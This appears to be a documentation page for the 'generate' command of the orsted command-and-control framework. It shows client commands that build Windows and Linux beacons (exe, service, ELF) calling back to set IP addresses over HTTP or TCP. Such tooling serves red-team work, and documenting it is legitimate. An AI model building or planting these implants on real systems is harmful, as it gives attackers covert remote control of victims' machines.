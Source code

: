 ```yaml
---
title: generate
description: orsted c2 generate
---
```


### General

The `generate` command is only available from the main menu of the orsted client.

It allows to generate beacons.

```
orsted-client » generate --help

generate beacon or implant from a given beacon

Usage:
  generate [flags]

Flags:
  -h, --help     display help

Sub Commands:
  beacon  generate beacon (HTTP, HTTPS, TCP)
```

Listeners only support HTTP or HTTPS, TCP in the latest orsted version. Other protocol support may come soon.

### Generate a Windows beacon

Here the `tab` of the keyboard will guide you.

For example, to generate a `orsted-beacon` that:
- is a windows `exe`
- talk `http`
- connect to `192.168.122.45:80`

You can use

```bash
orsted-client » generate beacon windows http 192.168.122.45:80
```

`main_http.exe` will be generated.

For windows, you can generate a dll or a service for each protocol of communication type.

For example, to generate a `orsted-beacon` that:
- is a windows `service`
- talk `tcp`
- connect to `127.0.0.1:4444`

You can use

```bash
orsted-client » generate beacon windows tcp_svc 127.0.0.1:4444
```

`main_tcp_svc.exe` will be generated.


### Generate a Linux beacon

Here the `tab` of the keyboard will guide you.

For example, to generate a `orsted-beacon` that:
- is a Linux `elf`
- talk `http`
- connect to `192.168.122.45:80`

You can use

```bash
orsted-client » generate beacon linux http 192.168.122.45:80
```

`main_http` will be generated.
